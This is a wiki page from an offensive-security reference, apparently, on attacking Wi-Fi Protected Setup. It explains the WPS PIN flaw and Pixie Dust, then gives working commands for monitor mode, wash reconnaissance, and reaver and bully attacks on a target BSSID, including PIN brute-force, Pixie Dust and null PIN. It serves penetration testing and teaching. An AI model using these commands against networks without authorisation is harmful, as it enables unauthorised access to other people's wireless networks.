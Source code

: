 ```yaml
---
authors: 'ShutdownRepo, joker2a, blepdoge'
category: radio
---
```


# WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier.
WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

> [!TIP]
> Initially it's 20k possible combinations (10^8 =100.000.000 to 10^4+10^4=20.000) but as the 8th digit of the PIN is always a checksum of digit one to digit seven, there are at most (10^4 +10^3=11.000) attempts needed to find the correct PIN.

Below are some known attacks on Wi-Fi Protected Setup (WPS):

* PIN Brute-Force: Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.
* Pixie Dust: This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.
* PIN Revelation: Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.
* Access Point Enumeration: Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

Most WPS attacks mentioned below can be conducted using [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) (Bash) or [wifite2](https://github.com/derv82/wifite2) (Python).

> [!TIP]
> Monitor mode can be activated automatically with these tools. The [monitor](#monitor-mode) section would not needed then.

> [!CAUTION]
> Some of the commands listed in this section may require high privileges to run. Containers would also need high privileges on a host.


There are three main methods for setting up a connection using WPS:

* Push Button Configuration (PBC): Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.
* PIN based Configuration: Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.
* Near Field Communication Configuration: In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address.
To capture all packets within a wireless device's range, switch the mode to "Monitor."

::: tabs


=== UNIX-like


The following native commands can be used to have a capable network interface in monitor mode.

```bash
# view wireless interfaces and check their current mode.
iwconfig

# disable a network interface
ifconfig "$INTERFACE" down

# change the interface mode to monitor
iwconfig "$INTERFACE" mode monitor

# re-enable your network interface.
ifconfig "$INTERFACE" up
```


=== Aircrack-ng


With [Aircrack-ng](https://www.aircrack-ng.org/) (C) installed, the following commands can be used.

```bash
# list all your network interfaces.
airmon-ng

# stop interfering network processes
arimon-ng check kill

# start a network interface in monitor mode
airmon-ng start "$INTERFACE"
```



:::


### Recon

[Wash](https://github.com/t6x/reaver-wps-fork-t6x) is used to identify nearby WPS-enabled access points along with their main characteristics. It is included in the [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) package.

```bash
wash -i "$INTERFACE"
```

### PIN Brute-Force

In 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that made PIN-based WPS vulnerable to brute-force attacks. A successful exploitation of this flaw would grant unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Two main tools are now available for conducting this attack: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) and [Bully](https://github.com/aanarchyy/bully) (C).

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -S -F -B -v 3
```

### Pixie Dust

In 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he dubbed "Pixie Dust". It specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a randomization deficiency during the generation of the "E-S1" and "E-S2" "secret" nonces. Knowing these nonces, the PIN can be retrieved in a matter of minutes. 

A tool called [pixiewps](https://github.com/wiire-a/pixiewps) was developed, and a new version of [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) was created to automate the attack.

Check [this list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y) to know which router model is vulnerable.

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -K 1 -N -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -d -v 3
```

### Null Pin

Some poorly implemented systems allowed the use of a "Null" PIN for connections. [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) can conduct the attack, whereas [Bully](https://github.com/aanarchyy/bully) lacks this specific functionality.

```bash
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -f -N -g 1 -vv -p ''
```
